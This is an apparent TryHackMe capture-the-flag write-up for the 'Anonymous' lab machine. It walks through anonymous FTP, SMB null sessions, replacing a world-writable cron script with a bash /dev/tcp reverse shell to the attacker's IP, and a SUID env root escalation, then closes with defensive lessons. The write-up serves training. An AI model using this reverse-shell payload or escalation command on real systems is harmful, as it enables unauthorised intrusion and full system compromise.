<div align="center">


</div>

## 📌 Overview

Anonymous is a Linux machine on TryHackMe rated medium difficulty. The attack surface includes FTP with anonymous login enabled, SMB shares, and SSH. The foothold comes through an FTP-accessible cron script that gets replaced with a reverse shell. Privilege escalation is achieved by abusing a SUID binary found via GTFOBins.

The core lesson here is that a world-writable script executed by cron is equivalent to leaving a remote code execution backdoor open. One misconfigured file permission and one anonymous FTP login is all it takes to go from nothing to a shell.

---

## 🛠 Tools Used

```
nmap                  → port and service discovery
smbclient             → SMB share enumeration
ftp                   → anonymous login and file upload
netcat                → reverse shell listener
GTFOBins              → SUID binary privilege escalation reference
```

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify every open service before touching anything else.

Started with a fast full-port scan to identify all open ports:

```bash
nmap -p- --min-rate 5000 -Pn 10.49.178.198
```



Four ports came back open: FTP on 21, SSH on 22, and SMB on 139 and 445. No web server — the attack surface is entirely protocol-based.

Followed up with a detailed version and script scan:

```bash
nmap -T4 -sV -A -Pn 10.49.178.198
```



The SMB scripts confirmed the host is running Samba 4.7.6 on Ubuntu, the computer name is `anonymous`, and SMB message signing is disabled. The OS is Linux despite the Samba fingerprint reporting Windows 6.1.

**Key findings:**

| Port | State | Service | Detail                    |
| ---- | ----- | ------- | ------------------------- |
| 21   | open  | FTP     | Anonymous login enabled   |
| 22   | open  | SSH     | OpenSSH                   |
| 139  | open  | SMB     | Samba 4.7.6               |
| 445  | open  | SMB     | Samba 4.7.6               |

---

### Step 2 — SMB Enumeration

**Goal:** Check what SMB shares are accessible with no credentials.

Listed available shares using a null session:

```bash
smbclient -L //10.49.178.198 -N
```



Two shares appeared: `print$` (denied) and `pics`. Connected to `pics`:

```bash
smbclient //10.49.178.198/pics -N
```



The share contained two image files — `corgo2.jpg` and `puppos.jpeg`. The images turned out to be a dead end — no steganography required. The real path is FTP.

---

### Step 3 — FTP Anonymous Login

**Goal:** Access the FTP server and identify anything exploitable.

FTP on port 21 allowed anonymous login with a blank password:

```bash
ftp 10.49.178.198
# Username: anonymous
# Password: (blank)
```



After logging in a `scripts` directory was visible. Navigating into it revealed three files:

```
clean.sh          — a bash cleanup script
removed_files.log — a log written by clean.sh
to_do.txt         — a note from the admin
```



The `to_do.txt` note read:

```
I really need to disable the anonymous login... it's really not safe
```

Self-aware, but too late. The critical finding was `clean.sh` — it runs as a cron job and the FTP directory permissions were world-writable (`-rwxrwxrwx`). The `removed_files.log` confirmed the script was executing regularly. A world-writable script executed by cron is direct remote code execution.

---

### Step 4 — Replacing clean.sh with a Reverse Shell

**Goal:** Overwrite the world-writable cron script with a reverse shell payload.

The original `clean.sh` checked for temp files and logged results — nothing dangerous on its own. But since it was world-writable and executed by cron, replacing it with a reverse shell payload gives us a shell as whoever the cron job runs as.

Modified `clean.sh` locally to contain a bash reverse shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.152.173/4422 0>&1
```



Uploaded the modified file back to the FTP server:

```bash
ftp> put clean.sh
```



The file transfer completed successfully. The cron job would pick it up on its next execution cycle.

---

### Step 5 — Catching the Reverse Shell

**Goal:** Receive the shell when cron executes the modified script.

Started a netcat listener on the attack machine:

```bash
nc -lvnp 4422
```

Within about a minute the cron job fired and a connection came in:



```
connect to [192.168.152.173] from (UNKNOWN) [10.49.178.198] 41640
namelessone@anonymous:~$
```

Shell obtained as `namelessone`. The `bash: no job control` message is normal for a raw reverse shell without a TTY. Grabbed the user flag immediately:

```bash
cat user.txt
```



**User flag captured.**

---

### Step 6 — SUID Binary Enumeration

**Goal:** Find misconfigured SUID binaries that can be used to escalate to root.

With a foothold established, the next check is SUID binaries — executables that run with the file owner's privileges regardless of who executes them:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



The output listed many standard SUID binaries. One stood out immediately:



`/usr/bin/env` has the SUID bit set. `env` is a utility for running programs in a modified environment — it has no business being SUID. The standard Linux install does not set the SUID bit on `env`. This is a misconfiguration and the intended escalation path.

---

### Step 7 — GTFOBins SUID Exploit for env

**Goal:** Use the GTFOBins documented technique to get a root shell via the SUID env binary.

Looked up `env` on GTFOBins — the reference for Unix binary privilege escalation techniques:



The SUID entry for `env` is clean and direct:

```bash
/usr/bin/env /bin/sh -p
```

The `-p` flag is critical. It tells the shell not to drop elevated privileges from the SUID bit. Without `-p`, many shells deliberately reset the effective UID back to the real UID on startup, neutralizing the SUID advantage. With `-p`, the shell inherits root's effective UID.

---

### Step 8 — Root Shell

**Goal:** Execute the exploit and capture the root flag.

Ran the command from within the reverse shell:

```bash
/usr/bin/env /bin/sh -p
whoami
```



```
# whoami
root
```

One command. Root immediately. Navigated to `/root` and read the flag:

```bash
cd /root
cat root.txt
```



**Root flag captured. Machine fully compromised.**
---

## 📌 Conclusion

* **Anonymous FTP is never safe** — the admin's own `to_do.txt` said it. If FTP allows anonymous login and the accessible directories are writable, it is a direct path to code execution. Any script that is both FTP-accessible and cron-executed is a remote code execution vulnerability waiting to fire.

* **World-writable cron scripts are immediate RCE** — the permissions on `clean.sh` were `-rwxrwxrwx`. Combined with a cron job that runs it on a schedule, this is equivalent to leaving a backdoor open. File permissions on scripts executed by privileged processes must always be restrictive.

* **SUID on env is an instant root** — `env` does not need the SUID bit for any legitimate purpose. Finding it in a SUID scan is a flag for misconfiguration. GTFOBins documents the exact exploit — one command with `-p` to preserve elevated privileges and you have a root shell. Always check SUID binaries against GTFOBins before looking for more complex escalation paths.

* **SMB null session enumeration costs nothing** — the `pics` share was accessible with no authentication. Even though it only contained images here, the enumeration took 30 seconds and could have revealed sensitive files. Always include null session enumeration in initial recon.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>